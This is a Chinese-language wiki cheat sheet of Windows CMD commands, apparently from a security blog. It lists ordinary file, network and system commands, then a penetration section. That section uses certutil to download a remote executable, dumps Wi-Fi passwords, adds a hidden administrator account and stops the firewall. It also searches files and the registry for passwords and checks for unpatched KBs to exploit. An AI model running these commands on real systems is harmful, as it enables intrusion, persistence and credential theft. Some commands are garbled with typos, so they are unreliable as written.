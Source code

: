 ```yaml
---
layout: wiki
title: Windows CMD 命令大全
categories: CMD
description: Windows CMD命令整理大全
keywords: Windows,CMD
---
```


> cmd是command的缩写.即命令提示符（cmd），是在OS / 2 ， Windows CE与Windows NT平台为基础的操作系统下的“MS-DOS 方式”。中文版Windows XP 中的命令提示符进一步提高了与DOS 下操作命令的兼容性，用户可以在命令提示符直接输入中文调用文件，进入win10系统版本后部分命令可能出现失效的情况，同时微软也有意用Windows PowerShell代替传统的cmd命令提示符工具。

### 0x00  cmd常用命令

#### 0x00.0  常用命令


```shell
文件校验命令：
C:\Users\1\Desktop>  certutil -hashfile test  MD5
C:\Users\1\Desktop>  certutil -hashfile test SHA1
C:\Users\1\Desktop>  certutil -hashfile test SHA256
网络配置情况：
C:\Users\1\Desktop>  ipconfig  /all
查看本地DNS缓存：
C:\Users\1\Desktop>  ipconfig  /displaydns
查看连接过的wifi名：
C:\Users\1\Desktop>  netsh wlan show profile
获取wifi对应的的密码：
C:\Users\1\Desktop>  netsh wlan show profile WiFi-name key-clear
查当前机器中正在线的用户，看管理员在不在：
C:\Users\1\Desktop>  query user
示域列表/计算机列表：
C:\Users\1\Desktop>  net view
查看当前所有账号，判断域规模：
C:\Users\1\Desktop>  net user
查看当前域所有的组名：
C:\Users\1\Desktop>  net group
增加用户：
C:\Users\1\Desktop>  net user bzhack pass  /add
删除用户：
C:\Users\1\Desktop>  net user bzhack  /del
加、显示本地组：
C:\Users\1\Desktop>  net Localgroup
将bzhack加入管理员组：
C:\Users\1\Desktop>  net localgroup administrators bzhack  /add
查看当前机器开启的共享：
C:\Users\1\Desktop>  net share
```

#### 0x00.1  文件操作

```shell
建文件夹
C:\Users\1\Desktop>  md  a
删除文件夹
C:\Users\1\Desktop>  rd  a
示文件夹结构
C:\Users\1\Desktop>  tree
显示磁盘目录内容
C:\Users\1\Desktop>  dir
复制文件
C:\Users\1\Desktop>  copy
copy增强版，复制文件夹
C:\Users\1\Desktop>  xcop
删除文件
C:\Users\1\Desktop>  del
原文件  /夹名  [新文件/夹名]  修改文件名
C:\Users\1\Desktop>  ren
查看文本内容
C:\Users\1\Desktop>  type
搜索d盘里conf结尾的文件
C:\Users\1\Desktop>  dir /a/s/b d:"*.conf"
文本编辑
C:\Users\1\Desktop>  edit
显示文件内容
C:\Users\1\Desktop>  type
```

#### 0x00.2  网络命令

``` shell
列出所有端口
C:\Users\1\Desktop>  netstat -a
示PID和进程名称
C:\Users\1\Desktop>  netstat -p
显示核心路由信息
C:\Users\1\Desktop>  netstat -r
列出所有tcp连接
C:\Users\1\Desktop>  netstat -at
列出所有ucp连接
C:\Users\1\Desktop>  netstat -au
查看开启3389端口的信息
C:\Users\1\Desktop>  netstat -an | find  "3389"
查看当前正处于连接状态的端口及ip
C:\Users\1\Desktop>  netstat -ano | findstr "ESTABLISHED"
查看当前正处于监听状态的端口及ip
C:\Users\1\Desktop>  netstat -ano | findstr "LISTENING"
```

#### 0x00.3  其他命令

```shell
查看版本
C:\Users\1\Desktop>  ver
查看机器名
C:\Users\1\Desktop>  hostname
查看权限
C:\Users\1\Desktop>  whoami
查看配置
C:\Users\1\Desktop>  systeminfo
查看进程
C:\Users\1\Desktop>  tasklist
清屏
C:\Users\1\Desktop>  cls
查看开启的服务，比如Terminal Services远程连接服务
C:\Users\1\Desktop>  C:\Users\1\Desktop>  net start
闭防火墙
net stop sharedaccess
查看当前机器的环境变量，看有没有我们可以直接利用到的语言环境
C:\Users\1\Desktop>  set
列出当前机器上的所有盘符
C:\Users\1\Desktop>  fsutil fsinfo drives
```

### 0x01 渗透命令

- certutil——从远处URL下载文件

  ```shell
  C:\Users\1\Desktop>  certutil -urlcache -split -f http://baidu.com/test.exe
  ```

- findrst----查找文件后缀结果

  ```SHELL
  C:\Users\1\Desktop>  findstr/s/i"pass"*.py*
  C:\Users\1\Desktop>  reg query HKLM/f password/t REG_SZ 5----搜集注册表中的各种密码数据
  ```

- 查看有没有开启远程链接，运行下面命令：

  ```shell
  C:\Users\1\Desktop>  reg query "HKEY LOCAL_MACHINE\SYSTEM\CurrentC ontrolSet\Control\T erminal Server"/v fDenyTSConnections
  ```

  - 结果：1表示关闭，0表示开启

- 快速查找未打补丁的exp

  ```shell
  C:\Users\1\Desktop>  systeminfo > bzhack. txt&(for %i in (KB977165 KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780) do @ type bzhack. txtl@ find /i "% ill @ echo %i you can exp)& del /f /q /a bzhack. txt
  ```
